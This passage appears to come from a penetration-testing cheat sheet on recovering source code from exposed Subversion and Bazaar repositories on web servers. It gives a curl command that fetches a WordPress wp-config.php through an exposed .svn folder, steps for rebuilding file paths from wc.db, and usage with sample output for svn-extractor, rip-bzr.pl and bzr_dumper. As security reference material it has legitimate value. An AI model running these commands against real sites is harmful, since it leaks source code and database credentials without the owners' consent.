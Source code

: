 ## Subversion

### Example (Wordpress)

```powershell
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database from http://server/path_to_vulnerable_site/.svn/wc.db
  ```powershell
  INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
  ```
2. Download interesting files
  * remove \$sha1\$ prefix
  * add .svn-base postfix
  * use first byte from hash as a subdirectory of the `pristine/` directory (`94` in this case)
  * create complete path, which will be: `http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base`


### Tools

#### svn-extractor

```powershell
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url "url with .svn available"
```

## Bazaar

### Tools

#### rip-bzr.pl

```powershell
wget https://raw.githubusercontent.com/kost/dvcs-ripper/master/rip-bzr.pl
docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-bzr.pl -v -u
```

#### bzr_dumper

```powershell
git clone https://github.com/SeahunOh/bzr_dumper
python3 dumper.py -u "http://127.0.0.1:5000/" -o source
Created a standalone tree (format: 2a)
[!] Target : http://127.0.0.1:5000/
[+] Start.
[+] GET repository/pack-names
[+] GET README
[+] GET checkout/dirstate
[+] GET checkout/views
[+] GET branch/branch.conf
[+] GET branch/format
[+] GET branch/last-revision
[+] GET branch/tag
[+] GET b'154411f0f33adc3ff8cfb3d34209cbd1'
[*] Finish

$ bzr revert
 N  application.py
 N  database.py
 N  static/
```